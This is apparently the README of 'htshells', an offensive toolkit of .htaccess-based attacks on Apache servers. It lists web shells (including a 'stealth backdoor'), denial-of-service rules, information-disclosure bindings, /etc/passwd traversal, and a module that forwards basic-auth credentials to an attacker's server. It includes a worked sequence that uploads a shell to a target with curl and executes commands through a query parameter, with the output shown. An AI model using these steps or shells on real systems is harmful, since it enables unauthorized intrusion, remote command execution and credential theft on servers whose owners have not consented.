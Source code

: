 HTSHELLS - Self contained web shells and other attacks via .htaccess files.

Attacks are named in the following fashion, module.attack.htaccess and grouped
by attack type in directories. Pick the one you need and copy it to a new file
named .htaccess, check the file to see if it needs editing before you upload it.
Web shells executes commands from the query parameter c, unless the file states
otherwise.

To prepare run `./prepare.sh file` which will generate the .htaccess file
to be uploaded. Example:
```
$ ./prepare.sh shell/mod_php.shell.htaccess
┬ ┬┌┬┐┌─┐┬ ┬┌─┐┬  ┬  ┌─┐
├─┤ │ └─┐├─┤├┤ │  │  └─┐
┴ ┴ ┴ └─┘┴ ┴└─┘┴─┘┴─┘└─┘
 justanotherhacker.com

.htaccess file is ready
$ curl -F 'file=@.htaccess' -k https://target/upload.php
$ curl -k https://target/uploads/.htaccess?c=id
...
# uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

== DOS/       # Denial of service attacks
- apache.dos.htaccess
  Makes all requests return a 500 internal server error

- mod_rewrite.dos.htaccess
  Regular expression dos condition in mod_rewrite consumes a child process

== INFO/      # Information disclosure attacks
- modcheck/
  Include additional response headers to indicate which Apache modules are active
  
- mod_caucho.info.htaccess *untested*
  Server status binding for the mod_caucho Resin java server module

- mod_clamav.info.htaccess
  Clamav status page binding

- mod_info.info.htaccess
  Server info binding for Apache

- mod_ldap.info.htaccess *untested*
  Server status binding for the mod_ldap server module

- mod_perl.info.htaccess
  Display the mod_perl status page

- mod_php.info.htaccess
  Make all php pages show source instead of executing

- mod_status.info.htacces
  Server status binding for Apache


== SHELL/       # Interactive command execution
- mod_caucho.shell.htaccess *untested*
  JSP based web shell

- mod_cgi.shell.bash.htaccess
  Shell using bash under the cgi handler, Requires exec flag to be set on the htaccess file.

- mod_cgi.shell.windows.htaccess *untested*
  Gives shell through php.exe via apache cgi configuration directives

- mod_include.shell.htaccess
  Server Side Include based web shell

- mod_multi.shell.htaccess
  Multiple shells in one .htaccess file, one attack fits all approach

- mod_perl.shell.htaccess *incomplete*
  TODO

- mod_php.shell.htaccess
  PHP based web shell access via http://domain/path/.htaccess?c=command

- mod_php.shell2.htaccess
  Alternate method of invoking a php shell from .htaccess file

- mod_php.stealth.shell.htaccess
  PHP based stealth backdoor - see http://www.justanotherhacker.com/2011/12/writing-a-stealth-web-shell.html for tutorial

- mod_python.shell.htaccess

- mod_ruby.shell.htaccess

- mod_suphp.shell.htaccess

== TRAVERSAL/   # Directory traversal attacks
- mod_hitlog.traversal.htaccess
  Directory traversal attack via hitlog module tries to read /etc/passwd

- mod_layout.traversal.htaccess
  Directory traversal attack reads /etc/passwd


== ./           # Various attacks
- mod_auth_remote.phish.htaccess *untested*
  Forward basic auth credentials to server of your choice

- mod_badge.admin.htaccess
  mod_badge admin page binding

- mod_sendmail.rce.htaccess *untested*
  Executes commands configured in the .htaccess file by specifying path and arguments to "sendmail" binary

Wireghoul - http://www.justanotherhacker.com
